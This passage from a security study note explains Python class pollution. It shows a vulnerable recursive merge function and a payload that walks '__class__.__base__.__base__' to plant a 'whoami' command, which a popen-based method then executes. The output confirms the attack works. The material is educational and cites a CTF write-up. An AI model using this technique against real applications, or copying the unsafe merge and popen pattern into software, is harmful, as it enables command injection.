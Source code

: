 ```python
print(HR)
print(Employee)
#> <class '__main__.HR'>
#> <class '__main__.Polluted'>
```

The same approach can be followed if we want to pollute any parent class (that isn’t one of the immutable types) in the inheritance chain, by chaining `__base__` together such as `__base__.__base__`, `__base__.__base__.__base__` and so on.

>[!warning]
>We can't modify classes of **immutable types**, such as `object`, `str`, `int`, `dict`, etc.

```python
from os import popen

class Employee: pass # Creating an empty class

class HR(Employee): pass # Class inherits from Employee class

class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


emp_info = {
    "__class__":{
        "__base__":{
            "__base__":{
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
merge(emp_info, recruiter_emp)
print(system_admin_emp.execute_command())

#> [!] Executing: "echo Hello there", output: "Hello there"
#> [!] Executing: "whoami", output: "abdulrah33m"
```


[^class]: [`__class__`](../Dev,%20scripting%20&%20OS/Python.md#`__class__`)
[^attributes]: [`__class__` attributes](../Dev,%20scripting%20&%20OS/Python.md#`__class__`%20attributes)
[^IDEK]: https://ctftime.org/writeup/36082